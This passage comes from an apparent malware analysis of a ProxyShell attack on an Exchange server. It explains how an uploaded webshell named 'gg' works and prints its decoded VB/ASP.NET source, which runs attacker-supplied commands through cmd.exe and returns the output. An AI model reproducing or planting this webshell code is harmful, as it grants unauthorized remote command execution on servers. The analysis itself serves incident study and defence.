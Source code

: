 ![Figure 5: The PST File with plain JavaScript code](ProxyShell%20vulnerabilities%20exploited%20da4098be500e42e19bcfa44398c199ff/Untitled_4.png)

Figure 5: The PST File with plain JavaScript code

---

# **Webshell demonstration Functionality**

The webshell file “gg” was uploaded on Exchange server which contains base64 encoded code. However, I analyzed the “gg” file. The following source code reveals the entire functionality:

When the webshell is accessed using a browser, two textboxes will be displayed along with a button. One textbox is for the path, usually it is “cmd.exe”, the other textbox is for the arguments that will be passed to the “cmd.exe”. After pressing the button, it will execute the function “xYjIZpmdmjiWw” on server. This will create a new process for command prompt and execute the command. The result of the command will be sent to the client the label with id “otqFkGShCVEuP” will show the result indicating whether the command was successfully executed or not.

```python
<%@ Page LanGuaGe='VB' Debug='tRUe' %>
 <%@ imPOrt NamESpAce='system.IO' %>
 <%@ imPOrt NamESpAce='System.Diagnostics' %>
 <scRIPt runat='server'>
 Sub xYjIZpmdmjiWw()
   Dim JxnrmdFyeYmhR AS NeW PrOCesS()
   Dim wJcYHmytXmDbS As New ProCeSsStaRtInFo(mqLdtgkkaMLaJ.teXt)
   wJcYHmytXmDbS.UsESheLlExeCuTe=fALse
   wJcYHmytXmDbS.RedIRectStaNDardOuTPut=tRUe
   JxnrmdFyeYmhR.StARtInFo = wJcYHmytXmDbS
   wJcYHmytXmDbS.ArGumENts=pgHmZQGldXBQB.teXt
   JxnrmdFyeYmhR.StARt()
   Dim ErWvWiWvUJgAx As StreamReader=JxnrmdFyeYmhR.StanDardOutput
   Dim YXZahWhTuzTFZ As StRIng = ErWvWiWvUJgAx.ReAdtOEnd()
```